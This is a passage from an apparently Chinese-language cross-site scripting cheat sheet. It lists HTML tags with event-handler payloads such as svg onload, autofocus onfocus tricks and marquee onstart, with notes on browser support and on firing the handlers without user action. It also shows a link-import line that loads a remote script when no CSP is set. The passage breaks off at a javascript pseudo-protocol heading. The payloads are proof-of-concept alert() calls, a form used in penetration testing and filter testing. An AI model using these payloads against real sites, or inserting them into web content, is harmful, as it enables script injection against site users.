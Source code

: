     <svg onload=alert("xss");>

### `<select>`

    <select onfocus=alert(1)></select>

    通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
    <select onfocus=alert(1) autofocus>

### `<iframe>`

    <iframe onload=alert("xss");></iframe>

### `<video>`

    <video><source onerror="alert(1)">

### `<audio>`

    <audio src=x  onerror=alert("xss");>

### `<body>`

    <body/onload=alert("xss");>

利用换行符以及 autofocus，自动去触发 onscroll 事件，无需用户去触发

    <body
    onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>

### `<textarea>`

    <textarea onfocus=alert("xss"); autofocus>

### `<keygen>`

    <keygen autofocus onfocus=alert(1)> //仅限火狐

### `<marquee>`

    <marquee onstart=alert("xss")></marquee> //Chrome不行，火狐和IE都可以

### `<isindex>`

    <isindex type=image src=1 onerror=alert("xss")>//仅限于IE

### 利用 link 远程包含 js 文件

**PS：在无 CSP 的情况下才可以**

    <link rel=import href="http://127.0.0.1/1.js">

### javascript 伪协议
